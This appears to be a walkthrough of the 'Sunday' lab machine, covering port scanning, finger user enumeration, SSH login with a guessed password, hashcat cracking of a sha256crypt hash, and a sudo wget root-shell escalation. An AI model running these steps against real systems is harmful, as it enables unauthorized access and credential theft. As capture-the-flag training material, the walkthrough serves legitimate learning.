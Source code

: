 **Ping**
![[Pasted image 20240628182437.png]]

Nmap Scans
```
mapit 10.10.10.76
```

Nmap Default Scan
![[Pasted image 20240628182623.png]]

Nmap Service and Script Scan
![[Pasted image 20240628183044.png]]

Nmap All Port Scan
![[Pasted image 20240628183754.png]]

Script and Service scan for Newly found ports
![[Pasted image 20240628183826.png]]

On Port 6787 https://10.10.10.76:6787
![[Pasted image 20240628184452.png]]

Will Enumerate Port 79 Fingers, Check the site for more info https://book.hacktricks.xyz/network-services-pentesting/pentesting-finger
```
finger @10.10.10.76
finger admin@10.10.10.76
Finger root@10.10.10.76
```
![[Pasted image 20240628183858.png]]



Get the Perl Script from this link https://github.com/pentestmonkey/finger-user-enum/blob/master/finger-user-enum.pl to enumerate finger

User Enumeration 
```
perl finger.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```



Will try ssh to sunny 
```
ssh sunny@10.10.10.76 -p 22022
```
![[Pasted image 20240628192158.png]]
We have to try default Passwords like and box name as a password, admin, root, username as password.

In this case box name is the password **sunny:sunday**

Will first read history file 
![[Pasted image 20240628192548.png]]
![[Pasted image 20240628192606.png]]
![[Pasted image 20240628192617.png]]

Will check the backup file
![[Pasted image 20240628194257.png]]

We Try to decrypt this password of Sammy
![[Pasted image 20240628194330.png]]
Found Hash type it is sha256crypt

Will decrypt this using Hashcat
```
hashcat --help | grep -i "sha256crypt"
```
![[Pasted image 20240628194413.png]]
Found the mode, it is 7400

Will crack it now, I have saved the hash of sammy in file named hash
```
hashcat -m 7400 hash /usr/share/wordlists/rockyou.txt --force
```
![[Pasted image 20240628194549.png]]
Found it...! **sammy:cooldude**!

Will change our shell to sammy now
```
su sammy
```
![[Pasted image 20240628194713.png]]

Will jump to Privilege Escalation....!

Will check our sudo privileges 
```
sudo -l
```
![[Pasted image 20240628194743.png]]

We can execute wget with sudo, will check is there any way to escalate or privileges with in GTFObins https://gtfobins.github.io/gtfobins/wget/#sudo
![[Pasted image 20240628194852.png]]

Will run this
```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```
![[Pasted image 20240628194947.png]]
We A3r r0o!.....:)


Will get flags Now
User.txt
![[Pasted image 20240628195040.png]]

root.txt
![[Pasted image 20240628195107.png]]



Done With Sunday......:)